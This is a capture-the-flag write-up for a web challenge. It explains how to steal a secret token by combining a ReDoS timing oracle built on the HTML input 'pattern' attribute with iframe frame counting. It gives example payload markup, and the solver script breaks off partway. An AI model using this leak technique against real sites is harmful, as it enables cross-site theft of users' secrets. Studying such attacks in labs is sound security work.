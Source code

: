 :warning: This means you need to steal the token **within 60 seconds**. For reference, my solution only requires about 30 seconds.

### Solution

The CSP and the `html` parameter's limitations prevent typical XS-Leak techniques. On the condition, are there useful HTML elements and/or attributes to construct an oracle?

My solution used `<input pattern="..." value="...">`.

- ref. https://developer.mozilla.org/en-US/docs/Web/HTML/Attributes/pattern

The `pattern` attribute specifies a regular expression for the input validation. It seems useful for XS-Leak with ReDoS.

For example:
```html
<input
  type="text"
  pattern=".*(.?){12}[abcd]beaf"
  value="xxxxx...snip...xxxxx{{TOKEN}}"
>
```

This validation works as follows:

- If the token matches with `^.*[abcd]beaf$`, the validation process is not heavy.
- Otherwise, the validation process is heavy.

However, there is a big(?) problem:

- You need to construct a **stable** oracle to ensure the leak process completes **within 60 seconds**.
- An XS-Leak depending on the browser's busy state tends to be **unstable** and takes a **long time**.

To address this, I added an `<iframe>` element and used the frame counting technique:
```html
<input
  type="text"
  pattern=".*(.?){12}[abcd]beaf"
  value="xxxxx...snip...xxxxx{{TOKEN}}"
>
<iframe></iframe>
```

- ref. https://xsleaks.dev/docs/attacks/frame-counting/

I measured how long it takes for the `window.length` value to change. As a result, I found that it is possible to reliably observe differences in the time required to evaluate a regular expression.


### Solver

```html
<body>
  <script type="module">
    // http://web:3000
    const BASE_URL = new URLSearchParams(location.search).get("baseUrl");

    const sleep = (ms) => new Promise((resolve) => setTimeout(resolve, ms));

    const waitFor = async (f) => {
      while (true) {
        if (await f()) return;
        await sleep(3);
      }
    };

    const win = open("about:blank");
```